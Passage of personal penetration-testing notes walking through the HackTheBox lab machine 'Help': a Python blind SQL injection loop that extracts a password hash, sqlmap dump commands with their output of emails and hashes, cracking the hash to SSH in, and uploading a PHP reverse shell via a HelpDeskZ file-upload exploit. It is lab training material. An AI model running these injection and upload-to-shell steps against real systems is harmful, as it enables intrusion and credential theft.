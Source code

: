 keyspace = 'abcdef0123456789'
for i in range(0,41):
    for c in keyspace:
        inject = f"and substr((select password from staff limit 0,1),{i},1) = '{c}'-- -"
        if blindInject(inject):
#            print(f"SUCCESS: {c}")
            print(c, end='', flush=True)

```
	- SHA1 hash:Decrypted password
		-  d318f44739dced66793b1a603028133a76ae680e:Welcome1
	- sshinto machine, guess username
		- ssh help@10.10.10.121
			- enter password Welcome1
- for email, adjust script (may not work, had to fix above code in python2
	```bash
chars = list(string.ascii_lowercase) + list(string.digits) + ['@', '_', '.']
```
	- **NOTE :**
		- used sqlmap (NOT ALLOWED IN OSCP)
			```bash
sqlmap -r sqlticket2 --batch --level 5 --risk 3 -p param[] -D support -T users --dump
```
		- Main output **DOESNT FIND THE PWD WE ARE LOOKING FOR**:
			```bash
+----+-----------------------+----------+----------+------------------------------------------+------------------+------------+
| id | email                 | status   | fullname | password                                 | timezone         | salutation |
+----+-----------------------+----------+----------+------------------------------------------+------------------+------------+
| 1  | helpme@helpme.com     | 1        | helpme   | c3b3bd1eb5142e29adb0044b16ee4d402d06f9ca | Indian/Christmas | 0          |
| 2  | lolololol@yopmail.com | 1        | xcvxv    | ec09fa0d0ba74336ea7fe392869adb198242f15a | NULL             | 0          |
| 3  | zef@gmail.com         | 1        | efef     | 870fc8c6fffd0c9d0579aab96268d9e4b7595222 | NULL             | 0          |
| 4  | test@example.com      | 1        | test     | 589c9a0be20cc3dbe19586b597c87ee4344c1739 | NULL             | 0          |
+----+-----------------------+----------+----------+------------------------------------------+------------------+------------+
```
- crack pwd of sha1
	- Welcome1
- need to guess username :help
	- ssh into machine with creds found
## Alternate easier method
- searchsploit also reveals a file upload vulnerability so we can upload reverse shell.
- in help.htb/support we generate a ticket
	- in the ticket we attach a reverse shell and have a listener running
	- before uploading, we should also know the location the upload goes to.
		- in the github helpdeskz v1.0.2 repo we see an uploads folder and a tickets folder inside it.
		- we check via the url if it returns any page and it redirects to help.htb so we know it exists.
	- we save the exploit in our folder via
		```bash
searchsploit -m /path/to/exploit
```
	- we then upload the file.
		- we get a response file not found but it should be uploaded regardless
	- we then pass our exploit command
		```bash
python2 exploit.py http://help.htb/support/uploads/tickets/ Reverseshell.php
```